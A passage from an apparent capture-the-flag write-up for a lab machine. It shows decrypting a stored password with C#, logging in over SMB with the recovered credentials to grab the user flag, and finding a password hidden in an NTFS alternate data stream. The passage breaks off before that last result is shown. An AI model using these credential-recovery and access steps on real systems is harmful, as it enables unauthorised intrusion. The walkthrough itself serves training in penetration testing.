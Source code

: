 ```C
                    using (var cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Read))
                    {
                        byte[] plainTextBytes = new byte[cipherTextBytes.Length];
                        int decryptedByteCount = cryptoStream.Read(plainTextBytes, 0, plainTextBytes.Length);
                        return Encoding.UTF8.GetString(plainTextBytes, 0, decryptedByteCount);
                    }
                }
            }
        }
    }
}

```

To compile the code under linux you must install mono-devel: `sudo apt install mono-devel`

once this is done it is necessary to create a file . cs with the code C# in it, the compiled. the result of this command is a . exe to run and you will have the password decrypted.

```bash
mcs file.cs

./file.exe

#result
Texte chiffré : Cg85hlvTV8r+9G717Px1Gw==
Texte déchiffré : xRxRxPANCAK3SxRxRx
```

Log in with smbclient on the remote target to get the user flag.
```bash
smbclient //10.10.10.178/Users/ -U "c.smith%xRxRxPANCAK3SxRxRx"

#on smbclient
cd C.Smith\

get user.txt
```

## Privileges escalation

In the user directory of c.smith we can find another directory called "HQK Reporting", we can download all its account. A particularly interesting folder seems to contain a password "Debug Mode Password.txt" but when we read it nothing, by the way we can see at the time of download that it is bytes of storage sound a 0. let’s look at that.

```bash
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Wed Jul 21 02:47:12 PM 2021 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes

#download the second file 
get "Debug Mode Password.txt:Password"

#cat the file 
cat Debug\ Mode\ Password.txt:Password

#result
```